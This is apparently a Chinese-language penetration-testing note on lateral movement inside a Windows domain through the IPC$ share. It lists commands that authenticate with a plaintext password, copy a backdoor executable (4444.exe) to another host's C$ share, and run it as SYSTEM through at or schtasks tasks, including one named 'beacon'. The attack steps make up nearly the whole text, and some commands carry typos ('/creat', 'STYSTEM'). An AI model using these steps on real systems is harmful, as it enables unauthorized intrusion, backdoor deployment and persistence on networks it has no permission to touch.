 # IPC域内移动测试
需启用文件和打印机共享和防火墙允许,<mark>明文密码</mark>
利用命令:
```
net use \\x.x.x.x\ipc$ "password" /user:username #工作组

net use \\x.x.x.x\ipc$ "password" /user:domain\username #域内

```

建立管道后,上传后门到另一台机器
```
copy 4444.exe \\x.x.x.x\c$ #复制4444.exe到另一台主机下的c盘中
```

启动后门
配合计划任务
```
1.at (<win2012)
at \\x.x.x.x  15:47 c:\4444.exe

2.schtasks(>=win2012)

schtasks /creat /sc once /sd 2026/01/01 /st 11:00 /tn mytaskname /tr "C:\4444.exe" /ru STYSTEM #创建 mytaskname任务定时执行

或

schtasks /creat /s x.x.x.x /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\4444.exe /F #创建beacon任务
schtasks /run /s x.x.x.x /tn beacon /i #运行beacon任务
schtasks /delete /s x.x.x.x /tn beacon /f #删除beacon任务


```
![](vx_images/573294236893585.png)